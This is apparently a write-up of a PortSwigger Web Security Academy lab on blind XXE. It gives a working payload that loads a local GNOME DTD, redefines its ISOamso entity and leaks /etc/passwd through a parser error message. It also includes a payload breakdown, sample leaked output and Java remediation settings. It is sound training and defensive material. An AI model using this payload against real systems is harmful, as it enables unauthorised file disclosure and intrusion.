

# Blind XXE – Out-of-Band Data Exfiltration via Error-Based DTD Overwrite

## Summary

A **Blind XXE** vulnerability was exploited to exfiltrate the `/etc/passwd` file by leveraging an **existing DTD file** on the server and **redefining an internal entity**. The attack triggers a parse error that echoes the file contents back in the error message.

**Severity:** High  
**CWE:** CWE-611 – Improper Restriction of XML External Entity Reference  
**Technique:** Error-Based XXE via Local DTD Redefinition

---

## Technical Background

When a blind XXE cannot use out-of-band channels, an attacker can:

1. Load a **local DTD file** already present on the server
2. **Redefine an entity** from that DTD
3. Trigger a **parameter entity cascade** that causes a parser error
4. The error message **leaks file contents** in the response

The GNOME desktop environment includes a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity named `ISOamso`, which serves as the redefinition target.

---

## Proof of Concept

### Step 1: Legitimate Request

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
</stockCheck>
```

### Step 2: Malicious Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck>
    <productId>1</productId>
</stockCheck>
```

### Payload Breakdown

| Step | Description |
|------|-------------|
| `%local_dtd` | Loads the legitimate Yelp DTD file |
| `%ISOamso` | Redefines the existing entity from the DTD |
| `%file` | Reads `/etc/passwd` into an entity |
| `%eval` | Dynamically constructs a new entity pointing to a nonexistent path that includes the file content |
| `%error` | References the nonexistent file — parser throws an error exposing the path (which contains `/etc/passwd` contents) |

### Step 3: Error Message with File Contents

The server responded with an error message containing the full `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

> **[Screenshot: Burp Suite response window showing the error message with /etc/passwd file contents clearly visible]**
  

---

## Why This Works

- Blind XXE prevents direct output, but **error messages are often returned**
- Loading an existing **local DTD** bypasses restrictions on external DTD loading
- Redefining an entity from a **trusted local file** works because the parser allows overriding
- The nested entity expansion forces the parser to generate a **descriptive error** that includes sensitive file data

---

## Impact

- **Local File Disclosure:** Read `/etc/passwd`, configuration files, SSH keys, source code
- **No OOB Required:** Works even when outbound network requests are blocked
- **Difficult to Detect:** Error-based payloads often bypass WAF rules

---

## Remediation

1. **Disable DTDs completely:**
   ```java
   dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   ```
2. **Disable external entities:**
   ```java
   dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
   dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   ```
3. **Use JSON instead of XML** where feasible
4. **Suppress detailed error messages** in production — return generic error responses

---

*PortSwigger Web Security Academy lab. Demonstrates advanced XXE exploitation using local DTD redefinition for error-based data exfiltration.*
